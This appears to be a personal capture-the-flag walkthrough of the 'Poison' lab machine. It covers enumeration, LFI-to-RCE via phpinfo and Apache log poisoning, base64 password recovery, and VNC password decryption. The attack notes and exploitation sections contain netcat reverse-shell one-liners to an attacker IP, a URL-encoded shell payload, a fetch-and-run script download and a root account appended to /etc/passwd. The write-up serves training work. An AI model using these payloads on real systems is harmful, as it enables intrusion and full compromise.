




# Summary


## about target

tip:  10.129.1.254

hostname: Poison

Difficulty: Medium


## about attack

+ LFI phpinfo rce, lfi log rce; 
+ Vnc password decrypt. 


**attack note**

```bash
Poison / 10.129.1.254


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e33b7d3c8f4b8cf9cd7fd23ace2dffbb (RSA)
|   256 4ce8c602bdfc83ffc98001547d228172 (ECDSA)
|_  256 0b8fd57185901385618beb34135f943b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32

for i in `seq 0 12`; do echo -n "| base64 -d "; done

charix:Charix!2#4%6&8(0

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i |nc 10.10.14.78 9001

echo 'test1:$1$test1$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/csh' >> /etc/passwd

```


# Enumeration

## nmap scan

Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e33b7d3c8f4b8cf9cd7fd23ace2dffbb (RSA)
|   256 4ce8c602bdfc83ffc98001547d228172 (ECDSA)
|_  256 0b8fd57185901385618beb34135f943b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
```


## http enum

dir scan 

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.txt -x php,txt

/info.php             (Status: 200) [Size: 157]
/index.php            (Status: 200) [Size: 289]
/browse.php           (Status: 200) [Size: 321]
/phpinfo.php          (Status: 200) [Size: 68156]
/ini.php              (Status: 200) [Size: 20456]
```


/listfiles


/phpinfo.php


file_uploads   on


/pwdbackup.txt


# Exploitation

## ssh login

save the key, and base64 decode.

```bash
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=

for i in `seq 0 12`; do echo -n "| base64 -d "; done

cat passwd.txt| base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d

Charix!2#4%6&8(0
```

ssh 

```bash
ssh charix@$tip
```


## phpinfo rce

Search: phpinfo lfi 

https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo


download payload and php-reverse-shell.php

```bash
pxc wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py

cp /usr/share/webshells/php/php-reverse-shell.php ./phpshell.php
```

modify the ip and port in phpshell.php.

```bash
$ip = '10.10.14.78';  // CHANGE THIS
$port = 9002;       // CHANGE THIS

```

copy the phpshell.php content to payload.


change the lfi url.


run.   no shell back, and python finished with error.



check the payload the response. 

`[tmp_name] =>`  not found. 




change the exploit. two place to change. 

```bash
[tmp_name] =&gt;
```

also need to change the lfi url, delete the `%00`

```bash
LFIREQ="""GET /browse.php?file=%s HTTP/1.1\r
```

run, got shell.

```bash
python2 phpinfolfi.py 10.129.29.186 80 100
```


## LFI + rce

enum the common log path, no found.

Burp-fuzz/LFI-InterestingFiles.txt

Burp-fuzz/FLI-LogFileCheck.txt


google search: freebsd apache log location

/var/log/httpd-access. log 



```bash
curl http://$tip/browse.php?file=/var/log/httpd-access.log
```


Inject php code to user-agent


check  rce

```bash
http://10.129.1.254/browse.php?file=/var/log/httpd-access.log&cmd=id
```


reverse shell


```bash
# not work. &
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.78 9001 >/tmp/f

# delete 2>&1
http://10.129.1.254/browse.php?file=/var/log/httpd-access.log&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+|nc+10.10.14.78+9001+>/tmp/f
```


# Privesc


## Local enum

linpeas.sh enum.

```bash
wget http://10.10.14.78/lpeas.sh	
chmod +x ./lpeas.sh 
./lpeas.sh | tee lp.log
```

found vnc service, port 5901 and 5801


/home/charix, secret.zip;  download file and crack the pwd.

```bash
scp charix@$tip:/home/charix/secret.zip ./

unzip secret.zip  ## use the pass of charix

git clone https://github.com/jeroennijhof/vncpwd.git

cd vncpwd
make

./vncpwd ../secret
VNCP@$$!
```

search key: vnc password decrypt github

https://github.com/jeroennijhof/vncpwd




ssh port forward.

```bash
ssh -L 5901:127.0.0.1:5901 -L 5801:127.0.0.1:5801 charix@$tip
```


connect to vnc.

```bash
vncviewer -passwd ./secret localhost:5901
```


## proof

```bash


```


